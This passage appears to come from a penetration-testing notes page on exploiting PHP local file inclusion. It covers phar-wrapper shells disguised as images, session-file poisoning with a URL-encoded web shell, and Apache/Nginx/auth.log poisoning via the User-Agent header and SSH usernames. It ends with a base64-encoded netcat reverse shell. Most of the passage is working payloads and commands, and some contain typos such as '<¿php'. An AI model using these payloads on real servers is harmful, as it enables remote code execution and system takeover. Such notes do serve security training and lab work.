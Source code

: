 Let's compiled into a phar file rename it:
```console
zero@pio$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

We will use a subfile called `shell.txt` to interact with:
```
http://<ip>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

## Log Poisoning

### PHP Session Poisoning

Most PHP web applications utilize **PHPSESSID** cookies, which are stored in `/var/lib/php/sessions/`{: .filepath} with the prefix `sess_`. For example, for the cookie `PHPSESSID=el4ukv0kqbvoirg7nkp4dncpk3`, the file would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`{: .filepath}.

First, start searching for a paremeter of the cookie that we can control. For example, using the previous page the `language` parameter.
```
http://<ip>/index.php?language=test
```

Accesing now the path we will see that text. Let's add a web shell and access the cookie.
```
http://<ip>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
```
http://<ip>/index.php?language=/var/lib/php/sessions/sess_<cookie>&cmd=id
```

### Server Log Poisoning

Both Apache and Nginx maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's **User-Agent** header. After poisoning the log we need to access it, these are the different folders for each web server:

| **Server**   | **Path Linux**   | **Path Windows** |
|--------------- | --------------- | ---------- |
| Apache  | `/var/log/apache2/`{: .filepah}  | `C:\xampp\apache\logs\`{: .filepath} |
| Nginx | `/var/log/nginx/`{: .filepath} | `C:\nginx\log\`{: .filepath} |

In **Burp Suite** we can change the **User-Agent**, or with cURL:
```console
zero@pio$ curl -s "http://<ip>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

Now...
```
http://<ip>/index.php?language=/var/log/apache2/access.log&cmd=id
```

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
```console
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
```
- Then we send this "user" to the log:
```console
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
```
